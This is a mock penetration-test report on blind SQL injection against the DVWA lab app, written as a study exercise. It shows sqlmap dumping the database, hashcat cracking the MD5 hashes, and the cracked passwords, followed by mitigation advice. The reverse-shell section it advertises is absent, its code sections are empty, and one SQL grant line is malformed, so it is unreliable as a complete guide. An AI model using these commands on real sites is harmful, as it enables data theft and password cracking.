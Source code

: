 # Blind SQL Injection Remote Code Execution Report


## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerability Explanation**](#section-1)
- [ **Proof of Concept - Establishing a  Reverse Shell**](#section-2)
- [ **Source Code Analysis**](#section-3)
- [**Mitigating Blind SQL Injection Vulnerability**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate Blind SQL Injection vulnerability against the DVWA application. The objective of this attack was to gain a Remote Code Execution (RCE) as `www-data`. This report mocks a penetration testing report and a debriefing situation for a client. 

## Vulnerability Explanation {#section-1}

![](/assets/sql/real.png)  

| Information | Explanation                            |
|-------------|----------------------------------------|
| Name        | SQLi                                   |
| Severity    | High                                   |
| CVSS        | 8.8                                    |
| String      | AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H    |
| Path        | http://127.0.0.1/vulnerabilities/sqli/ |


SQL injection is a security vulnerability that allows attackers to manipulate SQL queries executed by a web application's database.  

In addition, Blind SQL injection is a type of SQL injection vulnerability, however, the HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.  

![](/assets/sqlb/map2.png)   

This vulnerability poses a significant threat to the Confidentiality, Integrity, and Availability (CIA) triad of a system, as it can result in data breaches, unauthorized data disclosure, data manipulation,  and potential system downtime. It may also lead to a full compromise of a system through Remote Code Execution. 


## Proof of Concept {#section-2}
### Automating the Process SQLMap 

To exploit the vulnerability, the tester utilized SQLMap.  SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. As such, SQLMap automatically identifies vulnerable parameters and SQL injection techniques to use depending on the Database Management System (DBSM).

The tester first intercepted the SQL query with Burp Suite and fed SQLmap with the intercepted data. This  captured  request file was named `hack`
![](/assets/sqlb/intercept.png)   


```bash
echo 'GET /vulnerabilities/sqli_blind/?id=2&Submit=Submit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit
Cookie: PHPSESSID=dse3mdg76nb5nbp3sg3md8g651; security=low
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1' > hack

``` 
Next the tester ran SQLmap with the `--dump` parameter  to exploit a SQL injection vulnerability in a web application. The `--dump` option extracts and retrieves the contents of the database,  revealing sensitive data stored within the data base.

```bash
sqlmap -r hack  --dump
```
![](/assets/sqlb/result.gif)   


Next, the tester extracted the saved data base password using hashcat.
 ```bash
 hashcat -a 0 -m 0  /tmp/sqlmapsioqi_7q979443/sqlmaphashes-v4n117tp.txt /usr/share/wordlists/rockyou.txt --show
 ```
The tester was able to retrieve the passwords for all the users with ease.
```bash
8d3533d75ae2c3966d7e0d4fcc69216b:charley
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein

```


## Source Code Analysis {#section-3}
### Security-Low-Level
```bash

```


### Security-High-Level
```php

```



## Mitigating SQL Injection Vulnerability {#section-4}  
### Use Parameterized Queries
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username AND password = :password");
$stmt->bindParam(':username', $username);
$stmt->bindParam(':password', $password);
$stmt->execute();
```
 Bind  input values from the SQL code and ensures that they are treated as data rather than executable SQL statements. When a value is binded, it is securely passed to the database engine as a parameter, and the databasee interpreted the parameter as non sql data to be used in the query. Here the `:username` and `:password` are binded to the parameter `$username` and `$password` respectively.

### Principle of Least Privilege

Ensure that database users have the minimum required privileges necessary for their operations. Avoid granting excessive permissions to user accounts.
```bash
mysql -u root -p root
GRANT SELECT, INSERT, UPDATE, DELETE, ON mydatabase.* TO 'app'@'localhost';
FLUSH PRIVILEGES;
```
By excluding the `EXECUTE` privilege, the system restrict the user from executing stored procedures . Moreover, by removing the `INTO OUTFILE`, the system prevents users from writing query results directly to an output file on the server's file system. This would have prevented the Remote Code Execution demonstrated in the start of the report.

### Password Hashing: 
Use strong cryptographic hash functions with salt. Modern hashing algorithms such as Argon2id, bcrypt, and PBKDF2 automatically incorporate salt and are considered the standards when hashing passwords. A salt is a unique and randomly generated string that is added to each password during the hashing process. Since the salt is unique for every user, an attacker must crack hashes one at a time using the corresponding salt, rather than calculating a hash once and comparing it against every stored hash. This provides an additional layer of security for storing passwords. 
Below is an example code snippet in Python using the popular bcrypt library to hash and salt the password.
```bash
import bcrypt

# Generate a salt and hash the password
password = b"MyPassword123"  # Note the 'b' prefix to indicate a byte string
hashed_password = bcrypt.hashpw(password, bcrypt.gensalt())

# Print the hashed password
print(hashed_password)

```


## Conclusion
In conclusion, SQL injection is a critical vulnerability that poses significant risks to the security and integrity of database. It enables attackers to manipulate SQL queries and potentially gain unauthorized access, disclose sensitive information, or even execute arbitrary code. Preventing SQL injection is of prime importance to protect the confidentiality, integrity, and availability of data for users.

### Reference: 
[GrootBoan](https://security.grootboan.com/) , [SECN](https://secnhack.in/take-meterpreter-of-website-using-sqlmap-os-shell/) &
[Portswigger](https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection) 